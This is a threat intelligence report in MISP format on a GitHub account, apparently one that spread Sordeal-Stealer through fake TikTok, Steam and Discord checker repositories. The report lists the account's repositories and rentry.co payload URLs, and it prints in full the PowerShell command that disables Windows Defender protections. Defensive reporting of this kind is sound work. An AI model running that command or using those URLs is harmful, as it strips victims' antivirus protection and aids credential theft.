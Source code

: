 # Threat Report: 2023-04-11: Malicious GitHub user and account - distributing malicious code and running  Sordeal-Stealer


## Key Intelligence
* Date: 2023-04-11
* Threat Level: 2 (Medium)
* Tags: type:OSINT, osint:lifetime="perpetual", osint:certainty="50", tlp:white, tlp:clear, misp-galaxy:stealer="Sordeal-Stealer", misp-galaxy:mitre-attack-pattern="Exfiltration Over Alternative Protocol - T1048", misp-galaxy:mitre-attack-pattern="Browser Session Hijacking - T1185", misp-galaxy:mitre-attack-pattern="Keylogging - T1056.001", misp-galaxy:mitre-attack-pattern="GUI Input Capture - T1056.002"

---

## Indicators of Compromise (IOCs)
_No top-level indicators._

## Objects
### github-user — GitHub user
* [Social network] github-username: okkz
* [Social network] github-repository: Tiktok-Username-Checker
* [External analysis] attachment: 120434897.jpeg
* [Other] text: Self-taught python & web developer.
* [External analysis] link: https://github.com/okkz
* [Social network] github-repository: Steam-ID-Checker
* [Social network] github-repository: Tiktok-Username-Checker
* [Social network] github-repository: lure-s-tiktok-username-checker-LEAKED
* [Social network] github-repository: Steam-ID-Checker
* [Social network] github-repository: Discord-Token-Checker

### script — Object describing a computer program written to be run in a special run-time environment. The script or shell script can be used for malicious activities but also as support tools for threat analysts.
* [Other] text: powershell Set-MpPreference -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableRealtimeMonitoring $true -DisableScriptScanning $true -EnableControlledFolderAccess Disabled -EnableNetworkProtection AuditMode -Force -MAPSReporting Disabled -SubmitSamplesConsent NeverSend && powershell Set-MpPreference -SubmitSamplesConsent 2
* [Other] text: PowerShell
* [Other] text: Fetched from https://rentry.co/shitbymyself/raw
* [Other] text: Malicious

### url — url object describes an url along with its normalized field (like extracted using faup parsing library) and its metadata.
* [Network activity] url: https://rentry.co/shitonyourAV/raw

### url — url object describes an url along with its normalized field (like extracted using faup parsing library) and its metadata.
* [Network activity] url: https://rentry.co/shitbymyself/raw

### url — url object describes an url along with its normalized field (like extracted using faup parsing library) and its metadata.
* [Network activity] url: https://rentry.co/9ops5/raw

### url — url object describes an url along with its normalized field (like extracted using faup parsing library) and its metadata.
* [Network activity] url: https://rentry.co/khsph/raw
